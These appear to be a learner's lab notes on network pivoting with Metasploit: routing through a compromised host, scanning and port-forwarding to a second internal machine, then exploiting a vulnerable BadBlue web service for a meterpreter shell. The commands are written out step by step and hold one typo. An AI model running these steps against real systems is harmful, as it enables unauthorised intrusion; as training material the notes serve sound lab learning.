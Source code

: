 after exploiting victim 1 and get meterpreter 

- We can observe, there is only one network adapter and we have two machine IP addresses. But, we cannot access “Victim Machine 2” directly from the attacker’s machine.
- We will add a route and then we will run an auxiliary port scanner module on the second victim machine to discover a host and open ports.  
	- run autoroute -s 10.0.23.0/20 (first victim machine in meterpreter)
- run the port scanner on the second victim machine.
	- background
	- use auxiliary/scanner/portscan/tcp 
	- set RHOSTS 10.0.27.99 (second machine)
	- set PORTS 1-100 
	- exploit
- We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap
	- sessions -i 1 (change to )
	- ipconfig (check IP and Subnetmask)
	- portfwd add -l 1234 -p 80 -r 10.0.27.99 ( we are forwarding our kali machine(localhost) port to remote 80 of victim 2 IP) 
	- portfwd list
- We have forwarded the port, now use Nmap to find the running application name and version.
	- don't close msfconsole
	- nmap -sV -sS -p 1234 locabackgroundlhost (we want to know what services running in victim 2 ip using our own kali port that we forwaded to 80 )
	- we find vulnerable service and exploit then get mterpreter session
		- use exploit/windows/http/badblue_passthru 
		- set PAYLOAD windows/meterpreter/bind_tcp 
		- set LPORT 4433 (port 4444 already used from the first mterepter session)
		- set RHOSTS VICTIM 2 IP
		- exploit
		